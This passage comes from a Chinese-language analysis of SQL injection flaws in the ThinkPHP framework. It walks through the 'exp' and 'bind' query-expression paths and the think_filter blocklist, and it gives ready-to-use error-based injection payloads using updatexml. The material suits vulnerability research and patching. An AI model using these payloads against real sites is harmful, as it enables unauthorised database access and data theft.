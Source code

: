 也就是说当我们传入 `?id[0]=exp&amp;id[1]== 1 and updatexml(1,concat(0x7e,user(),0x7e),1)` 时，拼接后的字符串就是 `"`id` = 1 and updatexml(1,concat(0x7e,user(),0x7e),1)"`，最后的SQL语句也就成了 `"SELECT * FROM `user` WHERE `id` =1 and updatexml(1,concat(0x7e,user(),0x7e),1) LIMIT 1  "`，可以进行报错注入了。

这里使用了全局数组 `$_GET` 来传参，而不是tp自带的 `I()` 函数，是因为在 `I()` 函数的最后有这么一句代码，

```
is_array($data) &amp;&amp; array_walk_recursive($data,'think_filter');
```

调用了 `think_filter()` 函数来进行过滤，刚好就过滤了 `EXP` ，在后面加上了一个空格，那么自然也就无法进行上面的流程，不能进行注入了。

```
function think_filter(&amp;$value)`{`
    // TODO 其他安全过滤

    // 过滤查询特殊字符
    if(preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i',$value))`{`
        $value .= ' ';
    `}`
`}`
```



## 0x05 bind注入

```
public function sql()
`{`
    $User = M("user");
    $user['id'] = I('id');
    $data['password'] = I('password');
    $valu = $User-&gt;where($user)-&gt;save($data);
    var_dump($valu);
`}`
```

payload:`?id[0]=bind&amp;id[1]=0 and updatexml(1,concat(0x7e,user(),0x7e),1)&amp;password=1`

这里一路执行到上面的 `parseWhereItem()` 处，除了exp外，还有一处bind，这里同样也是用点拼接字符串，但是不同的是这里还拼接了一个冒号。也就是说拼接之后是 `"`id` = :0 and updatexml(1,concat(0x7e,user(),0x7e),1)"` 这样的。

```
$exp = strtolower($val[0]);
......
elseif('bind' == $exp )`{` // 使用表达式
    $whereStr .= $key.' = :'.$val[1];
`}`elseif('exp' == $exp )`{` // 使用表达式
    $whereStr .= $key.' '.$val[1];
`}`
```

拼接到SQL语句后是 `"UPDATE `user` SET `password`=:0 WHERE `id` = :0 and updatexml(1,concat(0x7e,user(),0x7e),1)"`。
